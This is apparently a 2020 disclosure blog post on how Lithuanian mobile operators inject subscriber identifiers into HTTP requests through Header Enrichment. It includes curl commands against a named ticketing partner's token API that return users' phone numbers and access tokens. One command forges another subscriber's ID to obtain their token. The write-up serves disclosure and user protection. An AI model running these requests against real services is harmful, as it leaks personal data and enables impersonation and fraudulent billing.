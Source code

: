 ```yaml
---
author:     Anton R. (Discovery) & Jaroslav Lobačevski (The article)
profileimage: anton-r.jpg
about:      https://full-disclosure.eu/author/anton-r/
layout:     post
title:      "Privacy leaks in mobile internet era"
date:       2020-03-03 12:00:00
categories: HackAndTell MobileInternet
cover:      
permalink:  /en/blog/mobile-data-leak
---
```

> tl;dr: Ignorance of security issues by mobile operator partners leaks your phone number to malicious websites. Misconfigurations of mobile operators allow tracking you worldwide.  
Try it yourself - [Proof of Concept](/en/blog/mobile-data-leak#proof-of-concept).

It all starts from curiosity... Have you ever seen a mobile app asking you to turn off WIFI and switch to mobile internet in order to use it?  
There are at least few of them in Lithuania that offer login-less service if you are connected to the mobile internet:

* [m.Ticket](https://play.google.com/store/apps/details?id=lt.sisp.itero.ticket.client&hl=en) - 
An app that allows you to buy public bus tickets using your phone.
* [m.Parking](https://play.google.com/store/apps/details?id=lt.sisp.itero.parking.client&hl=en) - 
An app for paying for city parking using your phone. The parking fee is added to your phone bill.
* [Mobile wallet MoQ](https://play.google.com/store/apps/details?id=lt.momo.app&hl=en) - 
An app for online payments, paying in-store and transferring money.

### How does it work?

It may sound crazy, but the mobile operator injects your identity into the outgoing HTTP request. Officially it is called HTTP Header Enrichment. When a third-party web server receives your request it already contains what is needed to identify the mobile user in a special HTTP header.

Let's check if that is true. First of all we need a server that would reflect back all HTTP headers it received from your browser. It is easy to write one by your own, but since we are lazy we'll use an already [existing one](http://postman-echo.com).

Connect a computer to your mobile device hotspot. Start a shell (command line) and run [curl](https://curl.haxx.se/) with the following arguments:
```
curl http://postman-echo.com/get
```
It returns the following response if you are not Tele2 user (showing just the important part):
```json
"headers": {
  "x-forwarded-proto": "https",
  "host": "postman-echo.com",
  "accept": "*/*",
  "user-agent": "curl/7.55.1",
  "x-forwarded-port": "80"
}
```
Nothing is suspicious here. This is because if configured correctly mobile operators inject headers only in a web request to white-listed partners. But not in Tele2 Lithuania case! It injects `"x-tele2-subid: 10.■■■.■■■.■■■` to **any unencrypted HTTP request**!

You may not see where the issue is... Yet it provides a [super cookie](https://en.wikipedia.org/wiki/HTTP_cookie#Other_uses) for any web site in the world. No matter if you switch the browser, clean cookies, use incognito mode - it uniquely identifies you as the same user. While you may share the same header with other Tele2 users nearby (something to be proved) it still gives a lot of information for a web sites to track you.

Let's switch our mobile provider and spoof the requested web site:
```
curl http://postman-echo.com/get --header "Host: mtis2.m-transportas.lt"
```
If correctly configured on mobile provider side the headers should not be injected because IP address of the request (the receiver is postman-echo.com) and the host name (mtis2.m-transportas.lt) doesn't match. However the following headers are injected in Bite case:
```
"bite-account-country": "LT",
"bite-account-id": "152■■■■■",
"bite-account-language": "LT",
"bite-account-type": "PREPAID",
"x-forwarded-server": "wap.bite.lt",
```
In Telia case:
```
"x-et-user-identity": "S9zdh■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■KUn3M"
```
### Things get worse. Partners come into play.
The host name we used above belongs to one of the white-listed partners. The company has created a web service that returns back a phone number among other things when a request from a mobile internet user is received. Let's try it:
```
curl --request POST http://mtis2.m-transportas.lt/api/token "Content-Type: application/x-www-form-urlencoded" -d "client_id=mticket&CountryCode=310&grant_type=mobileProvider"
```
The response:
```
{
  "userName": "3706■■■■■■■",
  "userType": 3,
  "client_id": "mticket",
  "access_token": "ey■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■Ck",
  "expires_in": 900,
  "refresh_token": "9c■■■■■■■■■■■■■■■■■■■■■■8d",
  "refresh_token_expires_in": 604800,
  "ticketInspectorGroupId": 0,
  "ticketInspectorLeader": false,
  "client_owner_code": null,
  "notifications": [
  ]
}
```
The service is public and the first line leaks your phone number. How could it be exploited?  
A malicious web page may run a javascript that calls mtis2.m-transportas.lt on your behalf. But if your provider is Tele2 it is even worse: `x-tele2-subid` gets injected into all unencrypted web site requests. So a malicious site may call mtis2.m-transportas.lt with the leaked `x-tele2-subid` and retrieve the phone number on the server side. This way it is impossible to detect the abuse from the client!
### Proof of concept:
Works with any Lithuanian mobile provider. Turn off WIFI and click on the link in your mobile device. (*Update 2020-04-02: The owner of m-transportas.lt SĮ „Susisiekimo paslaugos” updated the web service to break the PoC and assured on 2020-03-09 that they will make "architectural" changes in 1.5 month to mitigate the security issue.*)
[http://www.devsecurity.eu/mobile-data-leak/](http://www.devsecurity.eu/mobile-data-leak/)

[![Screenshot](mobile-data-leak-poc.png "Screenshot")](mobile-data-leak-poc.png)

### Does the injected header prove anything?
So these white-listed partners make security sensitive decisions based on a presence of a header. Let's try spoofing the identity. This time switch to WIFI and run the following command:
```
curl --request POST http://mtis2.m-transportas.lt/api/token "Content-Type: application/x-www-form-urlencoded" -d "client_id=mticket&CountryCode=310&grant_type=mobileProvider" --header "x-tele2-subid: {your id from previous runs incremented by one}"
```
You will receive the token id for a user with completely different phone number! The service got fooled even though we connected not from a mobile network. While possibly there is no threat in someone spoofing your identity to buy you tickets, you wouldn't like to get a bill in the end of a month for a parking or mobile payments (up to 50 Eur?) you didn't do. The presence of the special headers cannot be used to prove your identity.

### Conclusions
The HTTP Header Enrichment is an ancient technique from the dark ages of internet when most of the traffic was unencrypted (related risks were even published in [2010 by Collin Mulliner](http://www.mulliner.org/security/feed/random_tales_mobile_hacker.pdf)). It should be abandoned as insecure and violating users' privacy. Meanwhile you have the options:
* Do not use mobile internet.
* If using mobile internet from a laptop browser, install HTTPS Everywhere extension.
* Always use VPN.
